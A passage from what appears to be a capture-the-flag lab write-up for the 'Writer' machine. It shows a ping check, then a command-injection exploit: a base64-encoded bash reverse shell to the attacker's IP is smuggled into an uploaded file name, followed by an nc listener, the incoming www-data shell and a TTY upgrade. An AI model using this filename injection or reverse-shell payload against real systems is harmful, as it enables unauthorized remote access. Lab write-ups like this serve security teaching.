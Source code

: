 When I send that, I get a ping:

```

oxdf@parrot$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:07:15.179144 IP 10.10.11.101 > 10.10.14.6: ICMP echo request, id 6, seq 1, length 64
21:07:15.179164 IP 10.10.14.6 > 10.10.11.101: ICMP echo reply, id 6, seq 1, length 64

```

#### Shell

To get a shell, I’ll modify the file name:

```

oxdf@parrot$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64 
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIgo=
oxdf@parrot$ touch 'test.jpg; echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIgo=|base64 -d|bash;'

```

I’ll upload that file by editing a post, and verify it’s on Writer:

[![image-20211201212327224](https://0xdfimages.gitlab.io/img/image-20211201212327224.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20211201212327224.png)

Now I’ll modify the request in Burp to get that by url:

![image-20211201212618719](https://0xdfimages.gitlab.io/img/image-20211201212618719.png)

With `nc` listening, I’ll send that, and a shell comes back:

```

oxdf@parrot$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.101 51182
bash: cannot set terminal process group (1051): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$ 

```

I’ll do a shell upgrade:

```

www-data@writer:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@writer:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@writer:/$ 

```

